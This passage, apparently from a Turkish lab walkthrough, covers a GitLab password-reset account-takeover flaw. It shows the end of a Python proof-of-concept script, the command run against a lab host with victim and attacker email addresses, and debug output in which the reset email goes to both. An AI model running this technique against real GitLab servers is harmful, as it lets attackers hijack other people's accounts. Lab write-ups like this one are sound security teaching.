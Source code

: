 ```python
        target=args.target,
		evil=args.evil
    )
    if not exploit.ask_reset():
        exit()
```
{: file="poc.py" }

<br>

### Sömürü

İlk olarak, `/users/password/new` endpointine bir POST isteği gönderiliyor. Bu post isteğinin amacı `authenticity token` yani türkçe karşılığıyla *kimlik doğrulama belirteci* almaktır. Web uygulamaları CSRF (Cross-Site Request Forgery) saldırılarını önlemek amacıyla genellikle formlara gizli bir token ekler. Ayrıca bu token parola sıfırlama isteğinde gereklidir.


Elimizdeki kurbanın e-posta adresi : **victim@mail.gitlab.thm** 

Saldırganın yani bizim e-posta adresimiz : **attacker@mail.gitlab.thm**

<br>

Şimdi terminal ekranımızı açarak kodumuzu çalıştırabiliriz.

```console
C:\Users\bilal> python3 poc.py -u http://10.10.102.19:8000 -t victim@mail.gitlab.thm -e attacker@mail.gitlab.thm
[DEBUG] Getting authenticity_token ...
[DEBUG] authenticity_token = 2_gh9AIoZ1ehvVmp7F_jWvK2V10andHNpbPa7u5br-6tWnKVcoP0kTduhBQ6jbFjG2kJ63ol_4B3ruMTjinbVg
[DEBUG] Sending reset password request
[DEBUG] Emails sent to victim@mail.gitlab.thm and attacker@mail.gitlab.thm !
...
```

<br>

Komutu başarılı bir şekilde çalıştırdıktan sonra saldırgan e-posta adresimize aşağıda görüldüğü bir şifre sıfırlama maili gelecektir.


![Password Reset](password_reset.png)


Şimdi bize gelen şifre sıfırlama bağlantısını kullanarak şifre sıfırlama işlemini gerçekleştirebiliriz.

![Şifreyi değiştiriyoruz](change_password.png)

<br>

Şifreyi değiştirdikten sonra başarılı bir şekilde giriş yapabiliriz. 

![Login](hacked.png)
